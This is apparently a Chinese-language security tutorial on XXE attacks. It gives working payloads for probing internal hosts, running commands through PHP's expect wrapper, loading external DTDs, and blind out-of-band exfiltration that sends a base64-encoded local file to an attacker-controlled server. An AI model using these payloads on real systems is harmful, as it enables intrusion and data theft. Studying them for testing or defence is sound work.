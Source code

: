 - 玩法-内网探针或攻击内网应用（触发漏洞地址）
```bash
<?xml version = "1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTYTY rabbit SYSTEM "http://192.168.1.4:80/index.txt">
]>
<x>&rabbit;</x>
```
上面的ip地址假设就是内网的一台服务器的ip地址。还可以进行一个端口扫描，看一下端口是否开放。\

- 玩法-RCE

该CASE是在安装expect扩展的PHP环境里执行系统命令
```bash
<?xml version = "1.0"?>
<!DOCTYPE ANY [
		<!ENTITY xxe SYSTEM "expect://id">
]>
<x>&xxe;</x>
```
id是对于的执行的命令。实战情况比较难碰到。

- 引入外部实体DTD
```bash
<?xml version = "1.0"?>
<!DOCTYPE test [
		<!ENTITY % file SYSTEM "http://127.0.0.1/evil2.dtd">
		%file;
]>
<x>&send;</x>

//下面的是写入文件的
evil2.dtd:
<!ENTITY send SYSTEM "file:///d:/test.txt">
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629948681248-8a062064-0890-4502-a768-69bbae0c75ab.png#clientId=uc5789d7d-b19a-4&from=paste&height=163&id=ueb59080c&originHeight=430&originWidth=860&originalType=binary&ratio=1&size=54230&status=done&style=none&taskId=ub14552f0-8348-47d9-bbea-c4f6a5ad2a4&width=326)![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629948714394-f028f032-a979-4bc8-82fd-770c0cff9a15.png#clientId=uc5789d7d-b19a-4&from=paste&height=124&id=u1f27aeb7&originHeight=235&originWidth=737&originalType=binary&ratio=1&size=11845&status=done&style=none&taskId=u92e5ea06-5ac1-4b05-9759-148fa9e4571&width=388.5)<br />条件：看对方的应用有没有禁用外部实体引用，这也是防御XXE的一种措施。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629948618203-3f2165cd-968e-4d18-ae08-6de6d57db6d1.png#clientId=uc5789d7d-b19a-4&from=paste&height=208&id=u2ddbf3f8&originHeight=415&originWidth=1374&originalType=binary&ratio=1&size=46104&status=done&style=none&taskId=u4c3e7349-db8d-4626-b708-fedc566b3d3&width=687)

- 无回显-读取文件
```bash
<?xml version = "1.0"?>
<!DOCTYPE test [
		<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
		<!ENTITY % dtd SYSTEM "http://192.168.xx.xxx:80XX/test.dtd">
		%dtd;
		%send;
]>


test.dtd:
<!ENTITY % payload
	"<!ENTITY &#x25; send SYSTEM
'http://192.168.xx.xxx:80xx/?data=%file;'>"
>
%payload;
```
上面的url一般是自己的网站，通过第一步访问文件，然后再访问dtd文件，把读取到的数据赋给data，然后我们只需要再自己的网站日志，或者写个php脚本保存下来，就能看到读取到的文件数据了。
